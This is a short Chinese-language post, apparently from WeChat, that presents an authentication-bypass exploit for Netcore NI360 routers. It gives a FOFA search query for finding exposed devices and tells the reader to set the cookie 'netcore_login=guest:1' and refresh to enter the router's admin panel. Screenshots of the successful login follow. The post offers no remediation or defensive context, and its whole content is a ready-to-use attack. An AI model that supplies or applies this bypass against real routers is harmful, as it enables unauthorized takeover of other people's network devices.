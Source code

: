 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/dZ5DqozERqpiQ3MIfUTLig)

  

  

点击蓝字 / 关注我们

  

01

漏洞影响

磊科 NI360 路由器  

02

FOFA 语法

title="Netcore"

03

漏洞利用

添加以下 Cookie, 刷新即可进入后台。  

netcore_login=guest:1

添加 cookie

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9QcJ2kg6C1lQYxgpciaNPcyTfumTxZGeHlGK4YibTrVkjQqsfVACQegiavQvqYOG7lPBhMFhhdcQYQjg/640?wx_fmt=png)

登录成功

![](https://mmbiz.qpic.cn/mmbiz_png/tF1M75DDm9QcJ2kg6C1lQYxgpciaNPcyTbVhCmEPgZ0k4XxYQexO6m3FaD6SaCr2NOkicIibSXHiakNVnm2JGAo1uA/640?wx_fmt=png)